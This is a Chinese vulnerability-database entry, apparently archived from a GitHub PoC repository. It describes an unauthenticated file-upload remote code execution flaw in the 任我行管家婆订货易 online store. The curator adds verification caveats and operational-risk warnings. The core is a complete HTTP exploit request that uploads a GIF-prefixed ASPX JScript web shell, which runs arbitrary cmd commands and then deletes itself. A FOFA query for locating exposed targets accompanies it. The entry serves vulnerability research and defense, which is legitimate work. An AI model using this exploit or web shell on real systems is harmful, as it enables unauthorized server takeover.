


# 任我行管家婆订货易 UploadImgNoCheck上传到ASPX命令执行

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

## 条目说明

- 对象与具体问题：任我行管家婆订货易；UploadImgNoCheck上传到ASPX命令执行
- 版本、配置及部署条件：版本未知，上传目录支持ASPX/JScript执行
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- HTTP及脚本未围栏，Markdown可破坏换行与代码显示
- 示例含可交互命令执行和自删除，上传文件仍有持久性/执行风险，需安全说明
- 无文本上传响应/路径及执行结果；泛化在野已知无来源
- FOFA包含分销ERP不能证明这些分支同样受影响；无确切补丁

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

管家婆订货易在线商城 /api/Upload/UploadImgNoCheck 接口处存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## 影响版本

管家婆订货易在线商城

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：title="订货易" || title="管家婆分销ERP" || body="管家婆分销ERP" || body="ERP V3"

POC/EXP：

```http
POST /api/Upload/UploadImgNoCheck?m_server_name=ShopUserImg HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj7OlOPiiukkdktZR

------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="Filedata";filename="rce.aspx"
Content-Type: image/jpeg

GIF89a
<%@ Page Language="Jscript" validateRequest="false" %>
<%
var c=new System.Diagnostics.ProcessStartInfo("cmd");
var e=new System.Diagnostics.Process();
var out:System.IO.StreamReader,EI:System.IO.StreamReader;
c.UseShellExecute=false;
c.RedirectStandardOutput=true;
c.RedirectStandardError=true;
e.StartInfo=c;
c.Arguments="/c " + Request.Item["cmd"];
e.Start();
out=e.StandardOutput;
EI=e.StandardError;
e.Close();
Response.Write(out.ReadToEnd() + EI.ReadToEnd());
System.IO.File.Delete(Request.PhysicalPath);
Response.End();%>
------WebKitFormBoundaryj7OlOPiiukkdktZR--
```








## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
